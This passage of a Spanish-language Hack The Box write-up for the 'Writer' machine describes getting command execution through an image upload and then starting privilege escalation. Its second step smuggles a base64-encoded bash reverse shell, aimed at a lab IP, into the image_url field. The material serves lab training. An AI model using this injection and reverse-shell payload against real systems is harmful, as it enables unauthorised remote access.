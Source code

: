  Ahora empezamos a buscar vias de acceso para ejecutar una ejecucion de comandos, y encontramos lo siguiente.
![](/assets/images/htb-writeup-writer/via-para-ejecutar-comando.png)

 Entendemos como esta gesteonando la subida de una imagen a la web entonces procedemos a ser lo siguiente.
1. Ingresamos a la web, y subimos un archivo desde ella
2. Luego desde image_url indicamos con un wrapper a dicho archivo en este caso 
   file:///var/www/writer.htb/writer/static/img/pwned.jpg;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzQ0MyAwPiYxCg==|base64 -d|bash;
3. Nos ponemos en escucha de dicho puerto.



![](/assets/images/htb-writeup-writer/acceso_al_sistema.png)



##  Elevacion de Privilegios

 Cuando entramos en el sistema nos dirijimos a writer2_project y vemos un archivo manager.py, gracias a este archivo podemos acceder a la base de datos de forma automatica.
![](/assets/images/htb-writeup-writer/accediendo-a-la-base-de-datos.png)

